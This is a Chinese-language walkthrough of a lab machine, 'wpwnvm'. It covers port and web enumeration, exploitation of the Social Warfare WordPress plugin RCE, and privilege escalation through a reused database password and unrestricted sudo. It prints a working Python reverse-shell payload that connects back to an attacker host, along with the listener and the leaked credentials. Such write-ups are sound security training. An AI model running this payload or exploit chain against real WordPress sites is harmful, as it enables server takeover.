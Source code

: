 # wpwnvm
## 信息收集
### 端口枚举
```
┌──(aaron㉿aacai)-[~/Desktop/wpwnvm]
└─$ sudo nmap -p- 192.168.146.65                     
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-14 17:27 HKT
Nmap scan report for 192.168.146.65
Host is up (0.00023s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:F9:0B:60 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 4.07 seconds

└─$ sudo nmap -p22,80 -sV -A 192.168.146.65
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-14 17:27 HKT
Nmap scan report for 192.168.146.65
Host is up (0.00027s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 59:b7:db:e0:ba:63:76:af:d0:20:03:11:e1:3c:0e:34 (RSA)
|   256 2e:20:56:75:84:ca:35:ce:e3:6a:21:32:1f:e7:f5:9a (ECDSA)
|_  256 0d:02:83:8b:1a:1c:ec:0f:ae:74:cc:7b:da:12:89:9e (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.38 (Debian)
MAC Address: 00:0C:29:F9:0B:60 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.27 ms 192.168.146.65

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.49 seconds

```
这个靶机只有一个80和22端口开着, 那么入口就在网页端了
### Web信息枚举
![Img](../FILES/wpwnvm/img-20220814173522.png)
直接访问是一个建设中的页面
<br>
使用dirsearch查看一下可访问的
```
[17:36:12] 200 -  134B  - /index.html
[17:36:21] 200 -   57B  - /robots.txt
[17:36:32] 200 -    7KB - /wordpress/wp-login.php
[17:36:32] 200 -   27KB - /wordpress/
                                          
```
![Img](../FILES/wpwnvm/img-20220814173742.png)

<br>
robots.txt是一个fake的信息...
<br>
但是这是一个wordpress, 那直接上wpscan
<br>
TIP: 在这里我用了wpscan的api, 直接扫描出了可能有关的漏洞
```
i] Plugin(s) Identified:

[+] social-warfare
 | Location: http://192.168.146.65/wordpress/wp-content/plugins/social-warfare/
 | Last Updated: 2021-07-20T16:09:00.000Z
 | [!] The version is out of date, the latest version is 4.3.0
 |
 | Found By: Comment (Passive Detection)
 |
 | [!] 2 vulnerabilities identified:
 |
 | [!] Title: Social Warfare <= 3.5.2 - Unauthenticated Arbitrary Settings Update
 |     Fixed in: 3.5.3
 |     References:
 |      - https://wpscan.com/vulnerability/32085d2d-1235-42b4-baeb-bc43172a4972
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-9978
 |      - https://wordpress.org/support/topic/malware-into-new-update/
 |      - https://www.wordfence.com/blog/2019/03/unpatched-zero-day-vulnerability-in-social-warfare-plugin-exploited-in-the-wild/
 |      - https://threatpost.com/wordpress-plugin-removed-after-zero-day-discovered/143051/
 |      - https://twitter.com/warfareplugins/status/1108826025188909057
 |      - https://www.wordfence.com/blog/2019/03/recent-social-warfare-vulnerability-allowed-remote-code-execution/
 |
 | [!] Title: Social Warfare <= 3.5.2 - Unauthenticated Remote Code Execution (RCE)
 |     Fixed in: 3.5.3
 |     References:
 |      - https://wpscan.com/vulnerability/7b412469-cc03-4899-b397-38580ced5618
 |      - https://www.webarxsecurity.com/social-warfare-vulnerability/
 |
 | Version: 3.5.2 (100% confidence)
 | Found By: Comment (Passive Detection)
 |  - http://192.168.146.65/wordpress/, Match: 'Social Warfare v3.5.2'
 | Confirmed By:
 |  Readme - Stable Tag (Aggressive Detection)
 |   - http://192.168.146.65/wordpress/wp-content/plugins/social-warfare/readme.txt
 |  Readme - ChangeLog Section (Aggressive Detection)
 |   - http://192.168.146.65/wordpress/wp-content/plugins/social-warfare/readme.txt

```

尝试枚举用户
```
i] User(s) Identified:

[+] admin
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```
在上面使用wpscan的时候, 有一个100%命中的插件, social warfare, 那我们用searchspolit试试
![Img](../FILES/wpwnvm/img-20220814175756.png)
竟然是一个RCE, 拉下来查看一下代码
![Img](../FILES/wpwnvm/img-20220814175833.png)
path在wp-admin下面的post处, 那我们就直接根据漏洞的path来获取我们的shell
![Img](../FILES/wpwnvm/img-20220814181711.png)
```
<pre>system('python3 -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.146.50",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);\'')</pre>
```
在本地起监听端口, 同时使用python3去起一个http服务
```
└─$ sudo python3 -m http.server 80                                   
[sudo] password for aaron: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

┌──(aaron㉿aacai)-[~/Desktop/wpwnvm]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.146.50] from (UNKNOWN) [192.168.146.65] 49886

```

然后我们再用curl去访问本地, 这样我们就突破边界拿到了靶机的用户权限
![Img](../FILES/wpwnvm/img-20220814182138.png)
## 提升权限
### 查看wordpress文件
```
www-data@wpwn:/var/www/html/wordpress$ ls
ls
index.php
license.txt
readme.html
wp-activate.php
wp-admin
wp-blog-header.php
wp-comments-post.php
wp-config-sample.php
wp-config.php
wp-content
wp-cron.php
wp-includes
wp-links-opml.php
wp-load.php
wp-login.php
wp-mail.php
wp-settings.php
wp-signup.php
wp-trackback.php
xmlrpc.php

```
可以看到wp-config.php
```
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress_db' );

/** MySQL database username */
define( 'DB_USER', 'wp_user' );

/** MySQL database password */
define( 'DB_PASSWORD', 'R3&]vzhHmMn9,:-5' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

```
然后我们来利用python获取可交互式的shell, 尝试使用这个密码登录另一个用户
![Img](../FILES/wpwnvm/img-20220814182655.png)

<br>
登录上来了!

<br>
查看sudo -l, 发现这个用户可以执行所有的sudo权限.
<br>

![Img](../FILES/wpwnvm/img-20220814182845.png)

那就直接sudo su
![Img](../FILES/wpwnvm/img-20220814182827.png)

<br>
提权成功
